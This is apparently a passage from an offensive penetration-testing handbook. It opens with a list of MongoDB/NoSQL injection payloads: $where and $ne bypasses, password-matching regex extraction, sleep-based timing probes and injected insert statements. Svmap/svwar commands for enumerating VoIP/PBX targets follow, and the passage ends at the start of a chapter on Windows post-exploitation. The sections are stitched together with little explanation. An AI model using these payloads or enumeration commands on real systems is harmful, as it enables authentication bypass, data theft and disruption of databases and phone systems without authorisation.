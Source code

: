 true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';sleep(5000);
';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);



## PBX

**Resources**

[Pentesting VOIP](https://www.backtrack-linux.org/wiki/index.php/Pentesting_VOIP)

[Introduction to Telephony and PBX](http://phrack.org/issues/49/5.html#article)

##### Examples

Kali> svmap $TARGET
Kali> svwar -m INVITE -eSTART-END $TARGET





# Chapter 4 - Windows Post-Exploitation

> _Practice the principle of least privilege. Do not log into a computer with administrator rights unless you must do so to perform specific tasks. Running your computer as an administrator \(or as a Power User in Windows\) leaves your computer vulnerable to security risks and exploits. Simply visiting an unfamiliar Internet site with these high-privilege accounts can cause extreme damage to your computer, such as reformatting your hard drive, deleting all your files, and creating a new user account with administrative access.” _
>
> _**— Indiana University \(Best practices for computer security\)**_

This is the phase I like to refer to as second pass enumeration or enumeration from the inside. Now that we've gained a foothold into the network it is crucial to run all of our enumeration from the ground up as an inside actor.

##### Resources
